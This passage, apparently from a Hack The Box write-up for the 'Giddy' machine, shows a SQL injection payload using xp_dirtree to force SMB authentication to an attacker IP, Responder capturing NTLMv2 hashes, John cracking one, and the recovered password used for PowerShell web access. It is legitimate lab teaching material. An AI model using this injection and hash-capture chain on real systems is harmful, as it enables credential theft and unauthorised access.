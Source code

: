 Query: `GET /mvc/Product.aspx?ProductSubCategoryId=28;declare%20@q%20varchar(99);set%20@q=%27\\10.10.14.23\test%27;exec%20master.dbo.xp_dirtree%20@q HTTP/1.1`

With responder.py we can grab the hash:

```
[SMB] NTLMv2-SSP Client   : 10.10.10.104
[SMB] NTLMv2-SSP Username : GIDDY\Stacy
[SMB] NTLMv2-SSP Hash     : Stacy::GIDDY:1234567890123456:E5F6E4D55FD85E3C81554FD67088C8E2:0101000000000000CC831652C447D4014EC0AB8B8592622B0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000003184F7110D23082928FF6CBBB72AEA07F35DCE741FC5B735D1B4780228A863AC0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320033000000000000000000
[SMB] Requested Share     : \\10.10.14.23\IPC$
[SMB] NTLMv2-SSP Client   : 10.10.10.104
[SMB] NTLMv2-SSP Username : GIDDY\Stacy
[SMB] NTLMv2-SSP Hash     : Stacy::GIDDY:1234567890123456:C8FDC762ECE363F3B36E180C809B690D:0101000000000000E8DABE52C447D401D0CB7EFDCD2687540000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000003184F7110D23082928FF6CBBB72AEA07F35DCE741FC5B735D1B4780228A863AC0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320033000000000000000000
[SMB] Requested Share     : \\10.10.14.23\TEST
```

Hash: `Stacy::GIDDY:1234567890123456:E5F6E4D55FD85E3C81554FD67088C8E2:0101000000000000CC831652C447D4014EC0AB8B8592622B0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000003184F7110D23082928FF6CBBB72AEA07F35DCE741FC5B735D1B4780228A863AC0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320033000000000000000000`

The hash is crackable with the standard rockyou.txt list and we recover the password:

```
root@darkisland:~/giddy# john --fork=4 -w=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)
```

Password: `xNnWo6272k7x`

### Powershell web access

We can now log in to the web powershell interface using:

- Username: `giddy\stacy`
- Password: `xNnWo6272k7x`
- Computer: `giddy`

![](/assets/images/htb-writeup-giddy/remote2.png)
